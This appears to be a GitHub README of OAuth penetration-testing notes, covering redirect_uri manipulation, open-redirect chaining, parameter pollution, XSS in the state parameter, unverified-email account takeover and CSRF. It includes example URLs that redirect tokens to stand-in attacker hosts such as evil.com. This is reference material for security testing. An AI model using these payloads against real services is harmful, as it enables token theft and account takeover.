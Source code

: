 # OAuth_testing

## OAuth authentication is generally implemented as follows

- The user chooses the option to log in with their social media account. The client application then uses the social media site's OAuth service to request access to some data that it can use to identify the user. This could be the email address that is registered with their account, for example. 
- After receiving an access token, the client application requests this data from the resource server, typically from a dedicated /userinfo endpoint. 
- Once it has received the data, the client application uses it in place of a username to log the user in. The access token that it received from the authorization server is often used instead of a traditional password. 

## Common OAuth attacks
- Unvalidated redirect_uri Parameter
- Weak Authorization tokens ( an attacker may be able to guess it or bruteforce it)
- Everlasting Authorization tokens
- Authorization tokens not bound to a client

## Recon 

You should always try sending a GET request to the following standard endpoints:

- `/.well-known/oauth-authorization-server`
- `/.well-known/openid-configuration`


## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token

```powershell
https://www.example.com/signin/authorize?[...]&redirect_uri=https://demo.example.com/loginsuccessful
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

Redirect to an accepted Open URL in to get the access token

```powershell
https://www.example.com/oauth20_authorize.srf?[...]&redirect_uri=https://accounts.google.com/BackToAuthSubTarget?next=https://evil.com
https://www.example.com/oauth2/authorize?[...]&redirect_uri=https%3A%2F%2Fapps.facebook.com%2Fattacker%2F
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect.

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```powershell
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```
You may occasionally come across server-side parameter pollution vulnerabilities. Just in case, you should try submitting duplicate redirect_uri parameters as follows:
```powershell
https://www.example.com/authorize?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net 
```
Some servers also give special treatment to localhost URIs as they're often used during development. In some cases, any redirect URI beginning with localhost may be accidentally permitted in the production environment. This could allow you to bypass the validation by registering a domain name such as `localhost.evil-user.net.`

Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the redirect_uri. However, that doesn't mean it's time to give up. Try to find ways that you can successfully access different subdomains or paths.

Once you identify which other pages you are able to set as the redirect URI, you should audit them for additional vulnerabilities that you can potentially use to leak the code or token, like an Open URL Redirect.

`https://www.example.com/vulnerable-page/?path=`
```powershell
https://www.example.com/authorize?[...]&redirect_uri=vulnerable-page/?path=evil-user.net
```

## Executing XSS via redirect_uri

```powershell
https://example.com/oauth/v1/authorize?[...]&redirect_uri=data%3Atext%2Fhtml%2Ca&state=<script>alert('XSS')</script>
```

## Unverified user registration

When authenticating users via OAuth, the client application makes the implicit assumption that the information stored by the OAuth provider is correct. This can be a dangerous assumption to make.

Some websites that provide an OAuth service allow users to register an account without verifying all of their details, including their email address in some cases. An attacker can exploit this by registering an account with the OAuth provider using the same details as a target user, such as a known email address. Client applications may then allow the attacker to sign in as the victim via this fraudulent account with the OAuth provider. 

## Authorization Code Rule Violation

> The client MUST NOT use the authorization code  more than once.  
If an authorization code is used more than once, the authorization server MUST deny the request 
and SHOULD revoke (when possible) all tokens previously issued based on that authorization code.

## Cross-Site Request Forgery
> If you notice that the authorization request does not send a state parameter, this is extremely interesting from an attacker's perspective. It potentially means that they can initiate an OAuth flow themselves before tricking a user's browser into completing it, similar to a traditional CSRF attack. This can have severe consequences depending on how OAuth is being used by the client application. 

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback (`https://example.com/callback?code=AUTHORIZATION_CODE`). This URL can be used in CSRF attacks.


## References

* [Portswigger - OAuth 2.0 authentication vulnerabilities](https://portswigger.net/web-security/oauth)
* [PayloadALLthethings - OAuth](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/OAuth)
